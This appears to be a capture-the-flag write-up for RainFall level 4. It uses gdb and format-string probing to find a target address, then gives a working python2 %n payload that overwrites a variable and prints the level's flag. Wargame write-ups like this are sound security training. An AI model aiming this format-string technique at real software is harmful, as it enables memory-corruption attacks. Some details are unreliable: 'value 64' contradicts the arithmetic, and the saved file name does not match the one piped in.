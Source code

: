 
# Level 4

This program is vulnerable to format string like the last one, but this time we need to write a big value

Let's find the address to the m variable:

```bash
level4@RainFall:~$ gdb -q level4 
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x8049810
(gdb) 
```

We have the address of the variable


Now we can see that the buffer is the 12th argument on the stack, so we can use the %12$p format specifier to print the value of the buffer:


```
level4@RainFall:~$ ./level4 
AAAA%12$p
AAAA0x41414141
```

Now we can use the `%n` format specifier to write the value 64 to the address of the `m` variable. To achieve this, we need to write 16930116 characters to the buffer first, w, we just need to write the proper value at this address.  Note that we only need to add 16930112 as the address is 4 bytes long.


```bash
level4@RainFall:~$ python2 -c "print '\x10\x98\x04\x08' + '%16930112x' + '%12\$n'" > /tmp/exploit4
level4@RainFall:~$ cat /tmp/exploit2  | ./level4
[......SNIP......]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```


